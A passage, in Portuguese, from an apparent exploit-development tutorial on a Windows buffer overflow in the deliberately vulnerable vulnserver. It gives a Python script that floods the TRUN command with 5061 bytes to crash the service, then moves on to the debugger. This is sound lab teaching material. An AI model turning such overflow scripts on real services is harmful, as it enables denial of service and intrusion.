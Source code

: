 ## EXPLORAÇÃO

Agora que sabemos que o programa sofreu um crash com 5061 bytes, já incluindo o comando “TRUN /.../”, podemos iniciar o esboço do exploit.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../" + b"A" * offset

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```
Precisamos iniciar o vulsnerver, mas agora com o Immunity Debbuger.

![Immunity.](/std/winbof/winbof-5.png)

